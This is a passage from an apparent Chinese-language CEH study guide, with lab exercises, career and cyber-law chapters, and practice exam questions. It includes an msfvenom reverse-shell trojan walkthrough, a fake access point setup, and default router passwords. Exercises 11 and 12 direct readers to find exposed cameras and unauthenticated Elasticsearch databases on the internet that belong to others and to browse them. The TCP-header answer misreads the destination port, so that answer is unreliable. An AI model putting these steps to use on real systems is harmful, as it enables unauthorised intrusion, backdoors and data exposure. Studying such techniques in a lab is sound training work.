Subject: Warning! Suspicious Activity On abc@gmail.com
Return-Path: "info@free.com" <rp-c292e6133e409defe5468@localisation>
Message-ID: <1028.749966.2020077805e62489724@localisation>
X-Mailer: XyzMailer
Reply-To: <lego@business>, <lego@djmenx.xyz>, <haielpr@outlook.com>, <djmenx51@outlook.com>, <lego@djmenx1905@gmail.com>, <ffmi10@yahoo.com>, <kayzode@126.com>, <gayaxx4@mail.com>, <djmenx2014@gmail.com>, <djmenx99@yandex.com>, <gayagago@yandex.ua>, <djmenx55@gmail.com>, <djmenskdo@yandex.co>, <djmenx57@icloud.com>, <gayaxx10@protonmail.com>, <djmenx58@yandex.lt>, <gayax22@rambler.ru>, <djmenx500@yandex.kg>, <djme987@yandex.ee>, <lego@funylifes.org>, <lobyiamal@gmail.com>, <djmenx85@gmail.com>, <faykeiedr@inbox.lv>, <djmenx75@gmail.com>, <jayke@inbox.lv>, <kyyopi@inbox.com>, <logerr@naver.com>, <admi10tr@gmail.com>, <zolmei2@omail.com>, <mokizx@mail.com>, <ggmihxr@inbox.ru>, <joseph-121@mail.com>, <oath-iweb.com>, <globalale@californail.com>, <hetzner@germany.com>, <hetzner@online.com>, <jolie46@polandmail.com>, <live@berlin.com>, <hpeor@engineer.com>, <ptlfc@list.ru>
X-Xyz-cr: 51647504268516
X-Xyz-cn: 22321678752611
X-Xyz-bcn: 15122898045434
X-Xyz-md: 946483420105
X-Xyz-mg: 938089305374078958
X-Xyz-et: 55967642256
X-Xyz-pk: 3182122916592241
X-Xyz-ct: 13516740069084
X-Xyz-bct: 166299085348419
X-Xyz-Rcpt-Hash: vkieblpy926ad8ca76wdwe80m9a2672c7dabf0964@gmail.com
MIME-Version: 1.0
Content-Type: multipart/Mixed;boundary=S5deffw
Date: Sun, 20 Dec 2020 22:52:28 +0100
--S5deffw
Content-Type: text/html; charset="UTF-8"
--S5deffw
Content-Type: text/html; charset="UTF-8"
Content-Transfer-Encoding: quoted-printable
--S5deffw
Content-Type: text/html; charset="UTF-8"
--S5deffw
Content-Type: text/html; charset="UTF-8"
Content-Transfer-Encoding: base64
PCFET0NUWVBFIGh0bWwgUFVCewfrre0MvL0RURCBYSFRNTCAxLjAgVHJhbnNpdGlvFs... (truncated)
:text/html; charset="UTF-8"
--S5deffw
Content-Type: text/html; charset="UTF-8"
```

## 答案

此邮件是一个钓鱼尝试。理由如下：
1. 邮件显示可疑登录尝试发生在 Google 账户上。因此，该邮件理想情况下应该来自 Google 域名账户，而不是任何其他域名。
2. "回复至"邮箱包含多个域名，而此类邮件通常是不回复的邮件。

# 练习 5

**问题描述**：使用 `Wireshark` 对与实时网站交互的系统进行数据包过滤。识别以下内容：
1. 使用的协议
2. `Wireshark` 分配给特定数据类型的颜色代码
3. 过滤所有出站流量

## 答案

`Wireshark` 是最常用的网络审计工具之一。它允许你捕获实时数据并通过直观的 GUI 进行离线分析。

1. 打开 `Wireshark`。
    
    图 18.11：Kali 中的 `Wireshark`
2. 如果提示，请进行身份验证。
    
    图 18.12：用户身份验证
3. 选择要捕获流量的网络适配器。
    
    图 18.13：`Wireshark` 中的适配器选择
4. 右键点击获取"开始捕获"选项。点击它。
    
    图 18.14：在 `Wireshark` 中启动捕获
5. 将出现捕获界面，显示正在捕获的流量。
    
    图 18.15：在 `Wireshark` 中捕获流量
6. 通信中使用的协议存在于捕获数据包信息的 `Protocol` 部分。
7. 可以通过观察捕获窗口中不同协议显示的不同颜色来评估颜色编码。通过在过滤器选项中输入不同的协议并点击过滤器框右侧的箭头应用这些过滤器。
    
    图 18.16：`Wireshark` 中的流量颜色编码
8. 要采集 `HTTP/s` 流量，在过滤器中输入 `TLS` 并应用它。如果在此之前没有 https 交互，它将显示一个空白窗口。
    
    图 18.17：在 `Wireshark` 中应用过滤器
9. 打开网络浏览器并访问任何 https 站点，例如 `https://www.google.com`。一旦网站在浏览器中打开，注意 `Wireshark` 捕获窗口中捕获到的 `TLS` 数据包。
    
    图 18.18：`Wireshark` 中的 `TLS` 数据包采集

# 练习 6

**问题描述**：对连接到你网络的设备进行指纹识别，确定其制造商和型号。

## 解决方案

设备指纹识别涉及识别连接到网络的设备并确定其品牌和型号等特征。

1. 打开终端并输入以下命令：
    ```bash
    arp -a
    ```

    
    图 18.19：`ARP` 扫描
2. 使用流行的在线 `MAC` 注册查询访问接口的 `MAC` 地址，例如 [`MAClookup.app/search`](https://MAClookup.app/search)。
    1. 打开网站 [`MAClookup.app/search`](https://MAClookup.app/search)。
    2. 粘贴要分析的 `MAC` 地址的前 6 个十六进制字符，例如对于 `MAC` `00-50-56-e0-fb-7d`，粘贴 `005056`。
    3. 点击搜索图标获取结果。
        
        图 18.20：`MAC` 查询
    4. 对命令中识别出的不同 `MAC` 地址重复此操作。

# 练习 7

**问题描述**：在 Kali 上使用 `Msfvenom` 创建一个远程访问木马（RAT），并使用它在虚拟机托管的 Windows 系统中创建一个后门。

## 解决方案

`Msfvenom` 是 Metasploit 框架的命令行界面。该框架包含了大量的安全漏洞信息和脚本。

1. 打开 Kali Linux。
2. 如果需要，请更新 Linux。
    ```bash
    sudo apt-get update
    sudo apt-get upgrade
    ```

    
    图 18.21：系统更新
3. 在终端中输入以下命令启动 `msfvenom`：
    ```bash
    msfvenom
    ```
4. 在终端中输入以下命令列出可用的负载：
    ```bash
    msfvenom -l payloads
    ```

    
    图 18.22：`Msfvenom` 载荷选项
5. 寻找 `reverse_tcp` 负载。
    
    图 18.23：载荷查找
6. 检查 `reverse_tcp` 负载上可编辑的选项。
    
    图 18.24：`msfvenom` 中的载荷选项
7. 使用以下命令准备负载：
    ```bash
    msfvenom -p [payload] LHOST=[your ip address] LPORT=[the port number] -f [file type] > [path]
    ```

    
    图 18.25：`msfvenom` 中的载荷初始化
8. 打开一个 `netcat` 会话以允许木马回连到你处。
    
    图 18.26：`Netcat` 会话设置
9. 在你网络中的 Windows OS 虚拟机上复制并执行木马。
    
    图 18.27：木马执行

# 练习 8

**问题描述**：在你的无线路由器上配置 `MAC` 过滤。

## 解决方案

`MAC` 过滤允许你根据 `MAC` 地址对网络上的设备进行白名单或黑名单管理。

1. 除当前设备外，连接一个设备到你的无线路由器。
2. 登录你的无线路由器。通常位于 `http://192.168.0.1` 或 `http://192.168.1.1`。
    
    图 18.28：路由器登录

使用安装时设置的凭据。如果从未设置过凭据，请在网上搜索你路由器型号默认凭据。默认凭据通常为：`admin/admin`、`admin/password`、`administrator/password`。


图 18.29：路由器面板

3. 找到你想封的新设备的 `MAC`/硬件地址项。这通常列在路由器标签页中。或者，你可以按照规范找到设备的 `MAC` 地址。
    
    图 18.30：`MAC` 查找
4. 在路由器中添加该设备。
    
    图 18.31：`MAC` 添加
5. 检查网络是否可用。
    
    图 18.32：`MAC` 过滤
6. 按照 `MAC` 提交更改。
    
    图 18.33：黑名单

# 练习 9

**问题描述**：在 Kali 上使用监听模式配置伪接入点。

## 解决方案

伪接入点用于欺骗用户访问互联网。

1. 更新 Kali 并安装 `dnsmasq`。
    ```bash
    sudo apt-get update
    ```

    
    图 18.34：系统更新

    ```bash
    sudo apt-get install dnsmasq
    ```

    
    图 18.35：安装 `dnsmasq`
2. 将网卡设置为监听模式。
    ```bash
    airmon-ng start <INTERFACE>
    ```


**图 18.36：** `Airmon-ng` 监听模式

3. 设置伪接入点。

```bash
mkdir /root/myaccoint
cd /root/myaccoint
```


**图 18.37：** 定位 `hostapd.conf`

```bash
vi hostapd.conf
```

编辑 `hostapd.conf` 如下：

```text
interface=<INTERFACE>
driver=80211
ssid=[SSID]
channel=[CHANNEL]
macaddr_acl=0
ignore_broadcast=0
```

4. 启动伪接入点。

```bash
hostapd hostapd.conf
```


**图 18.38：** 编辑 `hostapd.conf`


**图 18.39：** 初始化伪接入点

## 练习 10

### 问题描述

查询某些网站的 TXT 和其他记录，并判断它们是否使用了云托管，如果是，找出其云服务商。

### 解决方案

1. 创建你想枚举的网站列表。
2. 打开任何在线 TXT 查询工具，例如 [`mxtoolbox.com/TXTLookup.aspx`](https://mxtoolbox.com/TXTLookup.aspx)。


**图 18.40：** `mxtoolbox.com`

3. 查询列表中网站的 TXT 记录。


**图 18.41：** TXT 查询-1


**图 18.42：** TXT 查询-2


**图 18.43：** TXT 查询-3


**图 18.44：** TXT 查询-4


**图 18.45：** TXT 查询-5

4. 检查 TXT 记录以提取信息。

**例如**：一个示例 TXT 记录如下：

```text
v=spf1 +a +mx +a:vmi185372.contaboserver.net -all
```

这表明该网站可能使用 Contabo 作为云服务商。

另一个记录 `yandex-verification: <record>` 表明该站点至少使用一种需要 TXT 验证的 Yandex 服务。

注意，某些网站（如 `goolge.com`）没有发布 TXT 记录。

## 练习 11

### 问题描述

使用 Google 高级搜索查询连接到远程监控系统。

### 解决方案

Google 提供了特定的查询参数，以便对各种因素进行更精确的搜索。Google 高级搜索控制提供了一个图形界面（GUI），让用户轻松访问这些选项。

1. 访问 `https://www.google.com/advanced_search`。
2. 在搜索输入框中输入示例查询，例如 `*MultiCameraFrame?Mode=Motion`。
3. 在缩小的结果部分，选择显示为"位于页面的"（in the url of the page）的项。
4. 浏览搜索结果以寻找未安全的系统。
5. 尝试更改搜索选项以发现更多此类案例。

## 练习 12

### 问题描述

获取互联网上未身份验证的连接系统数据库。

### 解决方案

由于疏忽或配置错误，各种云服务上存在许多未身份验证的数据库。可以使用像 `Shodan` 这样的云和物联网搜索引擎来检测此类系统，然后可以通过数据库连接器等可用工具进行连接。

1. 下载一个 `ElasticSearch` 的 GUI 工具，例如 `ElasticSearch` toolbox ([`chrome.google.com/webstore/detail/elasticsearch-toolbox/focdbmjgdonlpdknobfghplhmafpgfbp`](https://chrome.google.com/webstore/detail/elasticsearch-toolbox/focdbmjgdonlpdknobfghplhmafpgfbp))。
2. 访问 `https://www.shodan.io/explore`。
3. 在搜索查询中输入 `Elasticsearch`。
4. 遍历搜索结果寻找系统 IP。
5. 尝试直接通过浏览器在 `9200` 端口连接。
6. 如果连接成功，使用 `ElasticSearch` 工具箱探索数据库中存储更多信息。
7. 不要修改任何数据库。这可能会引起法律行动。

你可以使用适当的数据库连接工具和默认登录配置对几乎所有的数据库重复这些步骤。

将 `Shodan` 作为搜索引擎可以访问更多的物联网设备。请尽管探索。

## 练习 13

### 问题描述

分析以下 TCP 头部并根据你的分析回答问题。

```
0000   08 00 27 5c 65 26 5c f9 fd 69 86 10 08 00 45 00  ..'\e&\..i....E.
0010   00 34 41 e9 00 00 7a 06 ea 54 ac d9 a6 02 c0 a8  .4A...z..T......
0020   01 02 01 bb db 44 9d 14 f7 6c c0 d7 00 7f 80 10  .....D...l......
0030   01 15 85 bb 00 00 01 01 08 0a 46 7d 75 a1 0a          ..........u..
0040   43 57
```


1. 紧急指针（urgent pointer）被设置为多少？
2. TTL 是多少？
3. 目标 IP 地址是什么？
4. 目标端口是什么？
5. 序列号是什么？

## 解决方案

TCP 头的组成如下：


**图 18.46:** TCP 头部

我们现在可以确定所需的值：

- 紧急指针设置为 `00 00`。
- TTL 设置为 `7a`。
- 目标 IP 为 `c0 a8 01 02` (`192.168.1.2`)。
- 目标端口为 `db 44` (`5632`)。
- 序列号为 `9d 14 f7 6c`。

## 结论

到此时，你应该已经熟练掌握渗透测试中的一些基础工具和流程。你应该已经在某种程度上熟悉了 `Metasploit` 框架。你还接触过在网络上搜索信息，特别是物联网搜索引擎。这里的任务涵盖了非常基础的过程，但足以让你在 `CEH` 课程中开始处理更复杂的任务。下一章将介绍安全专业人士提供的职业选择，以及深入学习网络安全宇宙的道路。

# 第 19 章 安全专业人士的职业路线图

## 引言

作为一种职业，网络安全是信息技术领域利润丰厚的选择之一。随着企业和公众对安全和隐私的意识和关注增加，网络安全专业人士的道路是数不尽的。唯一的阻碍一直是主流教育对网络安全作为一门专业认可的滞后，而这一点在近期得到了纠正。

## 结构

我们将在本章涵盖以下主题：

* 网络安全行业
* 认证和学术路径
* 信息安全行业中的职业选择

## 目标

本章将处理你在成功完成 `CEH` 认证后，或者如果你仍在评估参加哪种证书或课程时可能面临的困境。通过本章，我们将尝试识别网络安全行业提供的职业选择、其要求以及成为成功的安全专业人士可以采取的各种途径。

## 网络安全蓝图

网络安全行业在全球已是一个价值数十亿美元的产业。随着信息技术和软件渗透几乎每一个行业，安全解决方案的市场正以前所未有的速度增长。预计明年网络犯罪的成本将超过 6 万亿美元，该行业在专业人才和解决方案方面严重短缺，中位薪资为 92000 美元，网络安全与任何其他职业一样丰厚。

面对海量的选择和职业方向，很容易在网络安全的宇宙中迷失。职业选择从道德黑客到网络活动主义者再到学者。让我们探索其中的一些选项以及你典型的一天会是什么样子：

* **道德黑客：** 一种信息安全专家，道德黑客通过进入系统来分析可能的漏洞，并帮助系统所有者在实际攻击发生之前主动修补其环境。当然，道德黑客在获得所有权限并在合同范围内工作与系统所有者紧密配合。这可能是网络安全宇宙中最著名、被讨论最多的职业选择。
* **网络安全工程师：** 网络安全工程师负责维护网络安全基础设施。这包括维护网络完整性、评估现有漏洞、评估网络集成、计划和执行补丁、监控和管理网络内交互，以及定义安全策略。
* **IT 安全分析师：** 与网络安全工程师类似，安全分析师负责制定计划并教育组织和个人有关威胁及其解决方案。人员可以进一步专门于特定领域，如公司网络、VPN、生产环境或数据中心。这些人是对组件微小细节拥有专家知识的人。

    
    **图 19.1:** 网络安全专业人士职业路径
* **网络取证调查员：** 网络取证调查员与其医学领域的对应者类似，负责绘制并追踪网络犯罪和欺诈的踪迹，以发现证据并可能设置蜜阱来捕获违规者。网络取证调查员可以被私营和政府机构聘用。
* **网络安全审计员：** 正如其名，安全审计员的主要任务是检查并评估解决方案、系统甚至整个公司所遵循的安全标准。安全审计主要关注数据流、访问系统、其可责性和计划。组织可能会聘请审计员以满足国家网络法律规定的审计要求，或作为其安全政策的一部分，通过对其安全流程进行独立评估以做好更好的准备。
* **赏金猎人：** 赏金猎人是安全爱好者，他们独立或以团队形式工作，在赏金计划范围内寻找组织系统中的安全漏洞。赏金计划由多个机构和小组运行，奖励报告其系统漏洞的人员。与伦理黑客攻击类似，赏金猎取通常没有雇佣合同，但当然会有关于工作范围和所用方法的合同。

  

  **图 19.2：** 网络安全工作年薪对比

此外，还有传统的职业选择，如软件开发人员、解决方案架构师（为应用程序、系统和组织设计并开发安全解决方案）。

或者，网络安全知识也可以仅仅作为 IT 专业人员的差异化加分项。


**图 19.3：** 网络安全中的关键领域

在知识升级方面，市场上有大量的认证和专业化方向选择，可以帮助并协助你的知识体系职业成长。

## 网络安全

1. **Cisco 认证网络工程师 (CCNA - Cisco)**：由 `Cisco` 提供的 `CCNA` 认证是与网络基础、网络访问、IP 连接、IP 服务、安全基础以及自动化和可编程等基础和技能相关的知名认证之一。

2. **Cisco 认证网络工程师（安全专业方向）（CCNA Security - Cisco)**：不要与 `CCNA` 混淆，`CCNA Security` 主要围绕基于 `Cisco` 设备的设计、创建和维护安全网络。

3. **Cisco 认证网络专家（安全专业方向）（CCNP Security - Cisco)**：这专门针对负责安全的 `Cisco` 网络安全工程师职位设计。它包含两门考试，一门涵盖核心安全技术，另一门是你选择的安全方向集中考试。

4. **Cisco 认证互联网专家（安全专业方向）（CCIE Security - Cisco)**：该计划认可了具有知识和技能能够利用最佳行业实践实施和维护广泛网络安全解决方案的安全专家。

5. **认证网络防御者 (CND – EC Council)**：这是一个基于安全教育框架的、技能驱动的、实验密集型的、厂商中立、实操、导师指导的全面网络安全认证培训计划。

6. **认证 SOC 分析师 (CSA – EC Council)**：它使候选人能够通过业内最资深导师的指导获取趋势和高需求的技能。申请者将学会如何监督不同的 `SOC` 流程并在需要时与 `CSIRT` 协作。

7. **高级网络防御 (CAST – EC Council)**：这是一个全面、结构化且快节奏的计划，让你沉浸在伦理黑客的世界中，提供对其思维模式的洞察，这是防御周围一些最恶意攻击的关键武器。

## 网络取证

1. **认证网络安全取证专业人员 (CCFP – ISC2)**：旨在增强对解决网络犯罪案件的取证技术和流程的技术理解。

2. **认证黑客取证调查员 (CHFI – EC Council)**：它总结了数字取证技术和标准取证工具的必备知识，用于收集此类调查中所需的入侵者足迹。

3. **高级数字取证与事件响应 (FOR508 - SANS)**：学习如何追踪、检测、应对和从企业网络中的各种威胁，包括 APT 国家级攻击者、有组织犯罪集团和黑客活动。

4. **认证威胁情报分析师 (CTIA – EC Council)**：这是一个全面的专家级计划，教授构建有效威胁情报的结构化方法，并组织了专业级 `CTIA` 的最新需求，这些人员可以通过实施各种高级策略从数据中提取情报。

5. **EC-Council 认证事件处理员 (ECIH – EC Council)**：`EC-Council 认证事件处理员` (`ECIH`) 专注于执行`事件处理与响应` (`IH&R`) 过程的结构化方法。`IH&R` 过程包括事件处理与响应准备、事件验证与优先级排序、事件升级与通知、法证据收集与分析、事件遏制、系统恢复和事件消除等阶段。

## 渗透测试

1. 进攻安全认证专家 (OSCP – Offensive Security)：这种在线伦理黑客课程是自学的。它介绍了渗透测试工具和技术。完成课程并通过考试的学生将获得梦寐以求的`进攻安全认证专家` (`OSCP`) 认证。

2. 认证伦理黑客 (CHH – EC Council)：`CEH` v11 将教导你黑客和信息安全专业人员用于合法攻击组织的最新商业级工具、技术和方法。

3. EC Council 安全分析师 (ECSA – EC Council)：`ECSA` 计划提供了无缝的学习进度，接在 `CEH` 计划结束的地方继续。与大多数其他只遵循通用杀伤链方法的渗透测试计划不同，`ECSA` 提出了一套可区分的方法论，能够涵盖不同垂直领域的各种渗透测试需求。

## 网络审计

1. **认证信息系统审计师 (CISA - ISACA)**：验证你的专业知识，并获得职业晋升所需的杠杆支持。通过 `ISACA` 的`认证信息系统审计师` (`CISA`) 认证，你可以实现这一点。`CISA` 全球闻誉，是审计、控制、监控和评估组织信息技术和业务系统人员的成就标准。

2. **ISO 27001 主审核员 (ISO 27001 LA - IRCA)**：该课程由`国际注册审核员处` (`IRCA`) 认证，并满足寻求在其 `ISMS` 体系下注册为主审核员的人员的培训要求，教授如何对评估符合 `ISO/IEC` 标准的组织 `ISMS` 进行领导、计划、执行和报告审计。

3. **GIAC 系统和网络审计员 (GSNA - GIAC)**：`GIAC 系统和网络审计员` (`GSNA`) 认证验证了从业人员应用基本风险分析技术对关键信息系统进行技术审计的能力。`GSNA` 认证者展示了网络、边界和应用程序审计以及风险评估和报告的知识。

4. **认证内部审计师 (CIA - Institute of Internal Auditors)**：`认证内部审计师` (`CIA`) 是由`内部审计师协会`提供的一种认证计划。在印度，`IIA India` 管理该计划。`CIA` 计划帮助候选人获得内部审计方面的专业知识。

## 软件专业人士

1. **认证信息安全经理 (CISM - ISACA)**：`CISM` 认证培训是你作为 IT 安全专业人士提升技能的极佳步骤。这项`认证信息安全经理`课程验证了创建稳健数据安全计划所需的学习和经验。

2. **认证安全软件生命周期专业人员 (CSSLP - ISC)**：CSSLP 认证认可了领先的应用安全技能。它向雇主和同行证明，你具备在使用 ISC 网络安全专家建立的最佳实践、政策和程序，在整个 `SDLC` 过程中进行身份验证、授权和审计所需的进级技术技能和知识。

3. **认证应用安全工程师 (CASE – EC Council)**：`认证应用安全工程师` (`CASE .NET`) 证书测试了在典型的 `软件开发生命周期` (`SDLC`) 过程中所需的关键安全技能和知识，重点关注在当今不安全的运行环境中实施安全方法论和实践的重要性。CASE 认证培训计划同步开发，旨在让软件专业人员具备全球雇主和学术界所期待的能力。

虽然在应用安全等领域，认证并非绝对必须，但它们是一个差异化因素，且对于许多机构来说，是基本的准入标准。


**图 19.4:** OWASP 章节首页


**图 19.5:** Null 社区首页

如果你熟悉某些软件语言的基础知识也是一种优势，例如像 `Python` 这样的脚本语言、`JavaScript` 和 `PHP` 等网络基础、Shell 脚本以及使用基础 `SQL` 进行数据库查询。

你也可以加入如 `OWASP` 和 `NULL` 等本地安全分会。参与讨论并观察。在信息安全领域，跟上技术和最新发展是可持续发展的关键。

## 结论

选择正确的专业方向或认证只是追求将网络安全作为职业选择的一小步。这个领域需要大量的实践和实操知识，而只有少数课程能够真正提供这些内容。另一项艰巨的任务是跟上技术的变化和进步，以防止自己过时。

成为一名网络安全专业人士或尝试成为这一者，很少是在法律和伦理的界限上走钢丝，如果你选择从事这一职业，请务必尊重法律和他人隐私。为了了解涉及的法律角度，下一章将列出全球范围内几项著名的网络法律。

# 第 20 章 数字合规与网络法律

## 引言

数字时代的开启是人类历史上最重要的发展之一，随之而来的是监管和保护数字资产、服务及基础设施的问题。虽然大多数行业是自律的，但仍有一些主要的合规标准和地方规则，指导着跨数字版图中数据的传输、存储和使用。

## 结构

我们将在本章涵盖以下主题：

* 合规与网络法律的必要性
* 起草网络法律法规面临的挑战
* 重要的合规与网络法律

## 目标

本章将带领读者了解信息技术行业及不同地区的一些法规和合规要求。它还将介绍立法者和组织在设计和实施这些针对数字宇宙的保护措施时必须考虑的一些主要挑战和考量。

## 合规与网络法律的必要性

信息技术领域一直提倡自律，并建立一个健全的框架来尊重当地法律和政策。此外，鉴于流经各种信息系统的数据和信息规模巨大，对于整个行业以及特定重要部门的治理，至少要有一些指导原则是至关重要的。

因此，已经出现了许多案例，即组织在某一领域内（或跨多个领域）汇聚在一起，并就信息系统的可信度（为了使信息系统能够被接受使用）确立了共同约成的最佳实践和流程要求。虽然这些规定可能对某个系统没有约束力，但将它们纳入可以给用户带来安全感，并为组织保护其系统提供坚实的基础。

一个非常常见的例子是 `PCI DSS` 标准集，它在支付行业中被虔诚地用于认证其技术栈。此外还有 `HIPPA` 合规，它被广泛应用于医疗领域，以标准化数据隐私和安全。

然而，对于自律的行业来说，即使是最关键的保护措施也很容易被忽视。在信息访问和流动方面法律边界非常模糊的情况下，这变得更有挑战性。问题可能是纯粹的疏忽，也为了节省时间或成本而故意走径。无论原因何，此类做法的结果反复被证明是灾难性的，修复这些问题的成本往往比最初构建时花费要得多。

为了保护行业（通常是终端客户）免受此类行为，并对数字系统上的犯罪活动进行监控，全球政府制定了行业遵循的指南。这些指南有时也会辅当地法律，以更严格地执行某些关键方面。然而，地方法律的问题在于，一项法律可能适用于某个地区，但在另一个国家可能并不适用。

让我们快速查看在网络空间设计合规性或法律时需要考虑的所有方面：

* **数据和信息隐私**：过去十年普遍心态的一个巨大变化是转向隐私，特别是在个人层面。随着许多经常被忽视的丑闻爆发，隐私政策突然发现了许多审查者。越来越多的人关注他们的数据如何被应用程序访问、存储和处理，以及这些过程对他们的隐私产生的影响。
* **系统与产品的异构性**：有效合规和法律最大的阻碍也许是各种流程及其实际实现的多样性。由于每个供应商都有自己的基础设施和框架，要建立一个通用标准并衡量每种特定方案的有效性可能是一个巨大的挑战。
* **自律性差**：信息系统市场一直提倡自律，少数负责任的参与者已将这些实践作为其流程不可或缺的一部分。问题在于组织不遵守这些协议。在许多情况下，组织为了财务利益对其产品或服务的违规行为视而不见。大多数软件公司在泄露发生并被公开之前，通常会忽视系统内部存储数据的安全性。
* **责任范围**：对于信息系统领域的监管者或立法者来说，最大的挑战可能是定义法规或法律的范围。信息系统往往用于各种用途，如前所述，对所有情况采取一刀切的规则或法规并不总是最佳解决方案。一个优惠券网站在数据隐私和保护方面，显然不像银行网站处于同一管辖范围。

## 地理与组织挑战

另一个方面在于攻击的地理边界。由于数据和信息分布在不同国家，违规行为的调查对于机构来说是一项巨大的问题，特别是当数据存储在另一个国家的服务器上，或者该机构本身位于国外时。

另一个方面是跨机构的信息共享，特别是在万物互联以及万事皆超本地化和针对性的世界上。在未经所有者同意的情况下监管流动内容，而且当然，还有定义数据所有权，是一项艰巨的任务，而且很少有任务不完成或留下大量漏洞的情况。

让我们来看看行业内一些流行的标准、法规和网络法律：

`PCI DSS`：支付卡行业数据安全标准是金融机构的一项行业标准，涉及系统如何处理客户的财务信息。虽然这不是政府强制要求的，但几乎所有处理信用卡和其他金融工具的金融公司都要求其及其供应商实施该标准。

`PCI DSS` 标准的核心是为机构制定了十二项标准要求，以对其处理的数据和过程提供最基本的安全保护。这些要求可以总结如下：

* 数据存储的防火墙配置要求
* 禁止在系统中使用供应商提供的默认凭据和安全配置
* 保护存储的持卡人数据
* 传输中数据的加密
* 定期更新安全系统（包括防病毒软件和防火墙）
* 开发和维护本质上安全的应用程序
* 仅根据“需知晓”原则访问数据
* 对访问系统的用户进行唯一标识
* 限制对持卡人数据的物理访问
* 跟踪和监控所有系统活动
* 对安全系统和实践进行定期测试和审计
* 维护旨在解决所有人员信息安全的政策

`GDPR`：欧盟的《通用数据保护条例》于 2018 年 5 月 25 日生效，此后在各国以各种形式被采用。简单来说，`GDPR` 规定了获得同意、尽量减少机构持有的个人数据，并确保数据主体的权利。该规定了终端用户有权知道机构处理了他们的哪些数据、对这些数据进行了哪些处理，最重要的是，对数据上发生的任何违规行为进行报告。

`HIPPA`：作为医疗 IT 标准的基石，1996 年的《健康保险流通性与责任法》规定了美国机构在系统内部及跨系统处理个人医疗和医疗数据时的存储、访问和可移植性方法。

`HIPAA` 规定对电子健康记录的访问限于那些有正当理由查看他们的人，因此，加密和强访问控制是关重要的。这些标准不仅适用于数据库中的信息，还适用于传输过程。因此，必须采取措施确保电子邮件和文件传输等操作得到充分的监控、保护和监管。

`CCPA`：《加州消费者隐私法案》于 2020 年 1 月 1 日生效。与 `GDPR` 类似，旨在让终端用户对个人数据及其处理具有更大的透明度和控制权。它进一步允许用户因数据泄露起诉机构，每条记录获得高达 750 美元的赔偿，并对每次违规行为的行为处以高达 7500 美元的直接罚款。

`PIPEDA`：作为针对私营部门组织的加拿大联邦隐私法，`PIPEDA` 旨在监管加拿大境内外机构对加拿大公民个人数据的处理和操作。《个人信息保护和电子文件法案》规定违规行为最高可处以 100,000 加元的罚款。

其他主要的网络法律包括南非的《个人信息保护法案》（`POPI`）、澳大利亚的《数据隐私法规》、巴西的《通用数据保护法案》（`LGPD`）、美国的《萨班斯-奥克斯利法案》（`SOX`）、印度的《信息技术法》。

## 隐私辩论

网络安全的一个非常重要的方面是确保用户数据免受未经授权和非意的访问。虽然恶意黑客和贪婪组织的这一方面最受关注，但窥探政府机构和执法部门的危险往往以“国家安全”为借口被深埋。

曾有无数次政府在加密标准中建立后门并强制使用它们，以便能够接入在系统中流动的所有信息，并将每一字节信息归因于其源头。政府往往甚至不在意隐藏他们在窥探数据的事实。

这场辩论的另一个方面始于这句话“我没有什么好隐藏的”。虽然这对于个人来说可能是事实，但由于缺乏安全的通信，几乎没有任何抵抗。从历史上看，我们无法在这个问题找到折中。

## 活动

为了测试你对合规性及其实现的理解，请研究以下违规和黑客事件，并制定可以防止或至少减少这些事件影响的法规：

1. `伊朗核计划 Stuxnet 蠕虫`，2005-2010 年
2. `Adobe 数据泄露`，2013 年 10 月
3. `Equifax 黑客`，2017 年 7 月
4. `Heartland 支付系统泄露`，2008 年 3 月
5. `Yahoo 数据泄露`，2013-14 年
6. `Google 中国泄露`，2009 年
7. `Software AG 勒索软件攻击`，2020 年
8. `Telegram 劫持`，2020 年
9. `WannaCry 勒索软件`，2017 年

## 结论

随着技术的进步，网络世界的犯罪分子通常领先一步，进化速度快于全球执法机构。因此，保护网络空间免受犯罪是一个巨大且不断演变的过程。虽然网络法律法规一直在追赶，但仍很大领域需要努力，特别是政府在建立政策信任和有效实施方面。

# 第 21 章 自测 1

## 目标

本章旨在让你了解自己对 `CEH` 认证和通用应用安全的准备水平。该评估基于认证考试中实际提出的问题，可以作为极佳的复习来源。

## 说明

* 评估包含 125 道单选题。
* 评估需在 4 小时内完成。
* 每道题得 1 分，没有负分。
* 及格分为 85% 或 106 题答对。
* 答案密钥位于评估末尾。

## 评估

1. **下列哪种加密攻击是对“通过胁迫或酷刑从个人处提取加密密钥（例如加密文件的密码）”的委婉说法？**
    1. 选密文攻击
    2. 唯密文攻击
    3. 计时攻击
    4. 软管攻击

2. **你对公司网络进行扫描，发现 `TCP` 端口 123 开放。哪些服务默认运行在 `TCP` 端口 123？**
    1. Telnet
    2. POP3
    3. 网络时间协议
    4. DNS

3. **下列哪项被认为是最可靠的 TCP 扫描形式之一？**
    1. TCP 连接/全扫描
    2. 半开放扫描
    3. NULL 扫描
    4. Xmas 扫描

4. **`IPsec` 的哪个组件执行了加密和解密数据包所需的协议级功能？**
    1. 密钥交换 (`IKE`)
    2. Oakley
    3. IPsec 策略代理
    4. IPsec 驱动

5. **你正在监控组织的网络。你注意到从内部网络到外部 IP 有大量的出站连接。进一步调查发现，这些外部 IP 已被黑名单。某些连接被接受，某些被丢弃。你发现这是 `CnC` 通信。**

    **你会建议哪种解决方案？**

    1. 在防火墙上拦截黑名单 IP
    2. 更新你的 `IDS`/`IPS` 的最新签名
    3. 清理尝试与外部黑名单 IP 通信的恶意软件
    4. B 和 C

6. **Trinity 需要对 `/16` 网络上的所有主机仅扫描 `TCP` 端口 445。她使用 `Nmap` 完成此操作的最快方法是什么？不需要考虑隐性。**
    1. `nmap -sn -sF 10.1.0.0/16 445`
    2. `nmap -p 445 -n -T4 –open 10.1.0.0/16`
    3. `nmap -s 445 -sU -T5 10.1.0.0/16`
    4. `nmap -p 445 –max -Pn 10.1.0.0/16`

7. **在调整安全告警时，最佳方法是什么？**
    1. 调整以避免误报和漏报
    2. 增加误报以减少漏报
    3. 减少误报
    4. 减少漏报

8. **识别网络时间协议 (`NTP`) 用作主要通信手段的 `UDP` 端口。**
    1. 123
    2. 161
    3. 69
    4. 113

9. **下列哪项是用于自适应 SQL 注入测试技术，该技术通过输入海量随机数据并观察输出的变化来发现代码错误？**
    1. 功能测试
    2. 动态测试
    3. 静态测试
    4. 模糊测试

10. **如果你不在乎是否被检测，并想要执行非常快的扫描，你会使用哪种 `Nmap` 选项？**
    1. `–T0`
    2. `–T5`
    3. `-O`
    4. `-A`

11. **使用 Wireshark 可以解决以下哪些问题？**
    1. 跟踪源代码的版本更改
    2. 检查服务器上所有网页的创建日期
    3. 重置多个系统上的管理员密码
    4. 排除两个系统之间通信重置的故障

